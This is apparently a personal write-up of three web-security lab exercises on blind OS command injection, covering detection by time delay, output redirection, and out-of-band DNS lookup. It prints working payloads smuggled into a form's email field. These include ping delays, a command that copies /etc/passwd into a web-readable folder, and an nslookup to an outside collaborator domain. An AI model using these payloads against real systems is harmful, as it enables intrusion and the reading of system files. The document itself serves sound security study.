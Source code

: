 Table of contents
---
[toc]
# Blind OS command injection vulnerabilities

Same like blind sql injection, blind OS command injection arises when an application is vulnerable to  OS command injection without returning the relevant result from the payload.

But it's still exploitable and below is the following techniques to detect a blind OS command injection vulnerabilities:

## Lab #1: Blind OS command injection with time delays

Sample request
```
POST /feedback/submit HTTP/1.1
Host: ac031f731f33252480f62106001a00b5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: https://ac031f731f33252480f62106001a00b5.web-security-academy.net
Connection: close
Referer: https://ac031f731f33252480f62106001a00b5.web-security-academy.net/feedback
Cookie: session=ev24V9G6Ba98S5KtiQLZeenNgdSlrNVO

csrf=BHYqUKMi41wmqBX8A15sLq4v7vOHfU53&name=fahmi&email=fahmi%40mail.com&subject=This+website+is+vulnerable+by+design&message=so
```

Sample auto mailing:
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
``` 

Detect using time-delay
```
||ping+-c10+127.0.0.1||
;ping+-c10+127.0.0.1;
```

Modified body parameter
```
csrf=BHYqUKMi41wmqBX8A15sLq4v7vOHfU53&name=fahmi&email=fahmi%40mail.com;ping+-c10+127.0.0.1;&subject=This+website+is+vulnerable+by+design&message=so
```

Injection on auto mailing:
```
mail -s "This website is vulnerable by design" -aFrom:NotValidMail||ping -c 10 127.0.0.1|| feedback@vulnerable-website.com
``` 

Note:  
`A ; B`, run A then run B   
`A || B`, if A failed, run B  
`A && B`, run B if a success  
`A & B`, run A in background, run B in foreground

## Lab #2: Blind OS command injection with output redirection

Sample request:
```
POST /feedback/submit HTTP/1.1
Host: ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: https://ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net
Connection: close
Referer: https://ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net/feedback
Cookie: session=58KoRxpoSbGR6XrHJBq7E3In48CGQW6t

csrf=b70JaGDFLtHCutnEPjIAHqsi51VinWlF&name=fahmi&email=fahmi%40mail.com&subject=website+is+vulnerable&message=test
```

Modified body parameter:
```
csrf=b70JaGDFLtHCutnEPjIAHqsi51VinWlF&name=fahmi&email=fahmi%40mail.com||cat+/etc/passwd+>+/var/www/images/passwd||&subject=website+is+vulnerable&message=test
```

Possible location:
```
https://blabla/image?filename=15.jpg
``` 
Then it would be
```
https://blabla/image?filename=passwd
```
But because the content-type is set to image/jpeg, the browser will try to render `passwd` to an image, therefore we'll see an error in the browser.

We need BurpSuite to intercept the request as well as its response.

![2f66306da4784b1eb2c629ac1012d95c.png](./_resources/2f66306da4784b1eb2c629ac1012d95c.png)

## Lab #3: Blind OS command injection with out-of-band interaction

Note:
If the system is asynchronous, it has no effect to the response timing. However, beside file write redirect, we could also detect the blind os command injection by redirecting the output to outer domain (out-of-band)

> An out-of-band means to reflect the response of payload to public server/system that we control  
> In short, we making it to interact with outer system that we monitored.


Steps:

Since labs only allows burp domain, and burp collaborator only available in the Pro version, I couldn't monitor the output.

Payload
```
email=||nslookup+burpcollaborator.net||
```

![4bf806a14fe5a426441fe8d0f39f2fed.png](./_resources/6a51eeec4d6e43ce86c45adfa0274c63.png)